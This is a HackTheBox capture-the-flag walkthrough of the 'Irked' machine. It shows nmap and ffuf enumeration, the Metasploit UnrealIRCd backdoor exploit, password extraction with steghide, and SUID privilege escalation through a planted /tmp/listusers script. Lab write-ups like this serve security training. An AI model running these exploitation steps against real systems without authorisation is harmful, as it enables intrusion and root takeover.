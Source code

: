 ```yaml
---
title: "Irked"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["irc"]
---
```


![infocard](media/irked_infocard.png)

## Introduction

Irked is a medium-difficulty machine on HackTheBox that involves exploiting a backdoor in the UnrealIRCd service to gain initial access and leveraging SUID binaries for privilege escalation. This walkthrough will guide you through the process of compromising the Irked machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- $ip > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-06 04:20 EST
Nmap scan report for 10.10.10.117
Host is up (0.33s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34818/udp   status
|   100024  1          38670/tcp   status
|   100024  1          47035/udp6  status
|_  100024  1          49457/tcp6  status
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.54 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 6.7p1
- **HTTP (80):** Apache httpd 2.4.10
- **IRC (6697, 8067):** UnrealIRCd

### Web Enumeration

Visiting the HTTP service on port 80 revealed a static image with a smiley emoji. We added `irked.htb` to our `/etc/hosts` file to resolve the domain.

![homepage](media/irked_homepage.png)


**Directory Brute-Forcing:**

Using `ffuf`, we discovered a directory named `manual`, which is typical Apache documentation.

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://irked.htb/FUZZ
```

![ffuf](media/irked_ffuf.png)

**Key Directory Identified:**

- `/manual`

## Exploiting UnrealIRCd

### Identifying the Vulnerability

The Nmap scan revealed an UnrealIRCd service running on ports 6697 and 8067. Researching UnrealIRCd vulnerabilities identified a backdoor command execution vulnerability in version 3.2.8.1.

![info](media/irked_version.png)

**Exploit Analysis:**

The exploit leverages a backdoor in the UnrealIRCd service, allowing arbitrary command execution by sending a specially crafted payload.

### Gaining Initial Access

Using the Metasploit module `exploit/unix/irc/unreal_ircd_3281_backdoor`, we gained a shell on the machine.

**Metasploit Module Execution:**

```bash
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
```

**Reverse Shell Obtained:**

![Reverse Shell](media/irked_newshell.png)

### Establishing User Access

We found the `user.txt` flag in `/home/djmardov/Documents/user.txt` but lacked the necessary permissions to read it. Further enumeration revealed a `.backup` file in the same directory.

**Backup File Contents:**

![Backup File](media/irked_backup.png)

The `.backup` file contained a password hint for steganography. Using `steghide`, we extracted hidden data from the `irked.jpg` image.

**Steghide Extraction:**

```bash
steghide extract -sf irked.jpg
```

**Extracted Data:**

![Steghide Output](media/irked_steghide.png)

Using the extracted password, we logged into the `djmardov` account via SSH.

**SSH Access:**

```bash
ssh djmardov@10.10.10.117
```

**User Shell Obtained:**

![User Shell](media/irked_user.png)

## Privilege Escalation

### Enumerating SUID Binaries

We identified a suspicious SUID binary `/usr/bin/viewuser`.

**SUID Binary:**

![SUID Binary](media/irked_suid.png)

### Exploiting the SUID Binary

The `/usr/bin/viewuser` binary attempted to execute a file named `listusers` in the `/tmp` directory. We created a malicious `listusers` script to gain a root shell.

**Malicious Script:**

```bash
echo "/bin/bash" > /tmp/listusers
chmod +x /tmp/listusers
```

**Executing the Binary:**

```bash
/usr/bin/viewuser
```

**Root Shell Obtained:**

![Root Shell](media/irked_root.png)

## Conclusion

The Irked machine on HackTheBox provided a comprehensive challenge, encompassing service enumeration, UnrealIRCd exploitation, and SUID privilege escalation. By methodically enumerating services, exploiting discovered vulnerabilities, and leveraging SUID binaries, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.

